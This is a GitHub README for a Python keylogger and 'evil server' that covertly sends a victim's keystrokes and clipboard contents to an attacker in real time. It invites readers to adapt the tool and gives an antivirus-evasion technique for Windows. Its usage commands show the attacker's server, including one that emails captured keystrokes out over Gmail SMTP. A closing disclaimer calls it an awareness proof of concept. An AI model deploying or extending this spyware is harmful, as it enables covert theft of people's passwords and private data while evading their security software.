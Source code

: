 <div align="center">

![272844130-8c3b2b16-ae6d-467b-82a3-0e8c0b89c46a-removebg-preview](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/312b2d20-ecb1-42b9-9d54-2382833a7735)

<img src="https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/8f263795-f5f4-418f-a918-d4dea0c992cd" height=275 align=left>
<img src="https://img.shields.io/badge/Language%20-Python3-green.svg">
<img src="https://img.shields.io/badge/Tool%20-Keylogger, Covert Channel-blue.svg">
<img src="https://img.shields.io/badge/Type%20-Script-violet.svg"">
<img src="https://img.shields.io/badge/OS%20-Windows, Linux-red.svg"">
<img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square">
</div>

<h1>Evil keylogger server (Covert Channel)</h1>

* ***Feel free to modify it as you see fit and it can be improved in many ways to suit your needs.***

This project focuses on a malicious server that remotely receives keyboard logs and data saved on the victim's clipboard, emulating an illegal covert channel between the victim and the attacker. When the victim runs the keylogger, the first thing it will do is connect to the attacker's remote server and send the logs in real time.

#

It has been carefully designed to present the keyboard logs in the most user-friendly way possible.

****(Remember to add your local or proxy IP address in the keylogger script)****

### Evading the antivirus (Windows 10/11):
Simple technique: Compile the PyInstaller bootloader locally using Microsoft C/C++ compiler and then use pyinstaller to compile the keylogger code.

# Optionals 

#### Send the keyboard logs to the attacker's e-mail address

`./app.py 192.168.32.34 -e smtp.gmail.com`

![Peek 12-01-2024 00-33](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/6d4b9199-5b1a-41ac-a82c-cf6d8b7bcd31)

#### Write the keystroke logs to a file

`./app.py 192.168.18.20 -f keylogs.txt`

![Peek 12-01-2024 00-34](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/b4470ef2-1f89-4823-b7d2-aa012f3a698c)

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept and is intended to raise awareness about cybersecurity
